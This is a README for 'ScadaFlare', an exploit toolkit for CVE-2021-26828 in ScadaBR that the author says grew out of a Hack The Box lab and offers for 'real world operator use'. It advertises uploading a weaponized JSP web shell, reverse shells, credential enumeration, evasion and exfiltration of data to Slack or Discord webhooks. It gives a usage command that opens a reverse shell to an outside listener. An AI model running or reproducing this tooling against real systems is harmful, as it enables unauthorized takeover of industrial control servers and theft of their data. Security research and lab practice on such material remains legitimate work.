 # ScadaFlare - CVE-2021-26828 Authenticated RCE Exploitation Toolkit

A modular post-auth RCE exploit targeting ScadaBR <1.1.0, enhanced for red team ops.

![ScadaFlare Demo](scadaflare-demo.png)

## Features

- Uploads weaponized `.jsp` shell via `view_edit.shtm`
- Supports Linux & Windows payloads
- SOCKS5 / HTTP proxy support
- Reverse shell trigger (standard or base64)
- Enumeration modules (DB, creds, Log4Shell, etc.)
- Webhook exfil (Slack / Discord)
- Metasploit resource script generation
- Cleanup support (kill switch)

## CVE

- CVE-2021-26828
- Discovered by Fellipe Oliveira
- Exploit enhanced & modularized by Ridpath

## Why This Exists
This exploit was developed during analysis of the HTB Pro Lab: Alchemy scenario. The original PoC by Fellipe Oliveira was solid but:

Written in Python 2

Lacked modern features like proxy support, shell cleanup, enumeration chaining

Was difficult to extend or integrate into red team workflows

This version, ScadaFlare, is a full rewrite in Python 3 with modular support, multiple evasion strategies, OS detection override, webhook integration, SOCKS proxy support, and enumeration chains for real world operator use.

## Usage

```bash
python3 scadaflare.py http://172.16.0.20:80 admin admin \
  --reverse-ip 10.10.14.44 --reverse-port 4445 \
  --verbose --cleanup
```
### License
MIT License – see LICENSE.txt
